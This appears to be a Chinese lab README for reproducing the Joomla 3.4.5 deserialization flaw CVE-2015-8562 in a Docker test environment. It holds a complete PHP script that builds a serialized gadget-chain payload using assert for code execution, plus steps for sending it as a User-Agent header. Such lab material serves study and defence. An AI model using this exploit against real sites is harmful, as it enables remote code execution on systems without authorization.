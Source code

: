 # Joomla 3.4.5 反序列化漏洞（CVE-2015-8562）

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

通过Joomla中的Gadget，可造成任意代码执行的结果。

详情可参考：

 - https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html

影响版本

 - Joomla 1.5.x, 2.x, and 3.x before 3.4.6
 - PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45

## 测试环境

编译及启动测试环境：

```
docker-compose build
docker-compose up -d
```

启动后访问`http://your-ip:8080/`即可看到Joomla的安装界面，当前环境的数据库信息为：

 - 数据库地址：mysql:3306
 - 用户：root
 - 密码：root
 - 数据库名：joomla

填入上述信息，正常安装即可。

## 漏洞复现

然后我们不带User-Agent头，先访问一次目标主页，记下服务端返回的Cookie：

![](2.png)

再用如下脚本生成POC：（[在线运行](http://sandbox.onlinephpfunctions.com/code/17e7080841ccce12f6c6e0bb1de01b9e390510bd)）

```php
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a); 

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```

![](1.png)

将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：

![](3.png)

